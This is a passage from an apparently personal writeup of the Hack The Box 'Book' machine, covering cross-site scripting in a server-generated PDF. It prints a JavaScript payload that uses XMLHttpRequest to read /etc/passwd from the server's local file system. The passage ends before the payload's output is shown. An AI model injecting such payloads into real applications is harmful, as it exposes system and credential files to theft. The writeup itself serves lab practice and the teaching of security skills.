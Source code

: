 That payload produced the following output:

<center><img src="/images/book_htb_writeup/10.png"></center>

This attack was new to me, so I searched 'pdf xss' on google and found [this article](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) which inspired me to try and read from a local file. I used the following payload to achieve this goal:

{% highlight javascript %}
<script>
x = new XMLHttpRequest;
x.onload = function() {
    document.write(this.responseText)
};
x.open("GET", "file: ///etc/passwd");
x.send();
</script>
{% endhighlight %}

The payload above produced the following document:
